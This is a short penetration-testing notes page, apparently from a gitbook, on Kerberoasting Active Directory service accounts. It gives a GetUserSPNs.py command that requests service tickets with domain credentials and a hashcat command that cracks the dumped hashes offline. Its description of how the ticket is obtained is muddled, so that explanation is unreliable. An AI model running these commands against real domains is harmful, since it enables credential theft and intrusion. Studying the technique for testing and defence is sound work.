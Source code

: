 # 🐩 Kerberoasting

Kerberoasting is a type of attack used in the context of Microsoft's Kerberos authentication protocol. In this attack, an attacker extracts the Ticket Granting Service (TGS) ticket for a service account from the Kerberos Authentication Service (AS) ticket, and then cracks the password offline using a tool like `tgsrepcrack` or `kerberoast`

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast" %}

after you have gained initial access to a target network and have escal your privileges to a domain user account At this point, you can start looking for service accounts that may be vulnerable to Kerberoasting

```
GetUserSPNs.py <Domain/Username:password> -dc-ip <ip of DC> -request
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After Dumping the Hashes, we will use Hashcat for cracking the hashes.

```
hashcat -m 13100 hash.txt wordlist.txt
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
